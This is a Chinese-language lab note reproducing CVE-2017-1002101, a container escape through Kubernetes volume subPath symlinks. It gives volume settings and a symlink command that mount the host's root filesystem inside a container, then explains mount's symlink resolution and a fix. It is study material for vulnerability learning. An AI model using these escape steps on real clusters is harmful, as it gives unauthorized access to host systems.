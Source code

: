 # 逃逸: CVE-2017-1002101

漏洞学习 搭建工具

https://github.com/Metarget/metarget/blob/master/README-zh.md

kubernetes 漏洞学习：

http://blog.nsfocus.net/metarget/

volume subPath

软连接

复现成功

![image-20220220165307809](.assets/image-20220220165307809.png)

参数填写

第一步：

```yaml
  "VolumeFrom": "/home/yy/coursa/lab/docker/code/Pro_3/volumn/soft_link",
  "VolumeTo": "/tmp/data",
  "Mode": "RW",
```

然后进入docker

```sh
cd /tmp/data
ln -s / /tmp/data/soft
exit
```

创建软连接

然后可以明白的就是在

```sh
/home/yy/coursa/lab/docker/code/Pro_3/volumn/soft_link
这个目录下有一个soft软连接
这是主机的目录文件系统
```

```yaml
  "VolumeFrom": "/home/yy/coursa/lab/docker/code/Pro_3/volumn/soft_link/soft",
  "VolumeTo": "/tmp/roottest",
  "Mode": "RW",
```

这样就直接把soft 指向的根目录 挂在到了roottest目录下

```sh
cd /tmp/roottest 
```

直接切换到了主机的根目录

# 具体mount

![image-20220220170254062](.assets/image-20220220170254062.png)

mount 命令的作用

![image-20220220170639306](.assets/image-20220220170639306.png)



会walking所有的符号链接，得到两个真正的目录。

kernel 不知道原始的目录，所以需要一个文件记录一下

/etc/mtab

![image-20220220170721515](.assets/image-20220220170721515.png)

![image-20220220171051941](.assets/image-20220220171051941.png)

https://unix.stackexchange.com/questions/395457/how-to-bind-mount-from-a-symlink/395458

# 解决思路

挂载时候 要进行安全验证，如果是软连接，mount系统调用，不能指软连接的目录



# 阅读

![image-20220220194227332](.assets/image-20220220194227332.png)

```
https://blog.csdn.net/shengxia1999/article/details/52060354
```